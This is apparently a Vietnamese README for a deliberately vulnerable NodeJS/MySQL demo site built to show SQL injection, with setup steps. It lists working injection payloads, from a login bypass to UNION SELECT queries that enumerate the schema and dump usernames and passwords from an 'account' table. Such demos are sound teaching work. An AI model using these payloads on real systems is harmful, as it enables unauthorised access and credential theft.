 ## Website demo tấn công SQL Injection

### Công nghệ sử dụng
- NodeJS
- MYSQL
- Heroku
- HTML
- CSS
- JS
- Bootstrap
- ExpressJS 

### Các câu lệnh tấn công thử trên web (copy bỏ dấu "[" và "]")
- [' OR 1 = 1 -- ]
- [' ORDER BY 4 -- ]
- [' ORDER BY 5 -- ]
- [' UNION SELECT 1, 2, 3, 4 -- ]
- [' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() -- ]
- [' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' -- ]
- [' UNION SELECT id, password, username, 4 FROM account -- ]

### Hướng dẫn run code
#### 1. Cài ứng dụng
- Nodejs
- MySql
- Vscode

#### 2. Import database trong thư mục database vào mysql

#### 3. Mở project bằng Vscode

#### 4. Vào file database.js (src/model/database.js) chỉnh sửa value của các dòng 4, 5, 6, 7 sao cho đúng với database.

#### 6. Mở terminal (cmd)

#### 7. Gõ lệnh: 
    - npm install --global yarn (Nếu đã cài yarn thì không cần thực hiện câu lệnh này)
    - yarn
    - yarn start

#### 8. Mở trình duyệt với url: "http://localhost:5000"
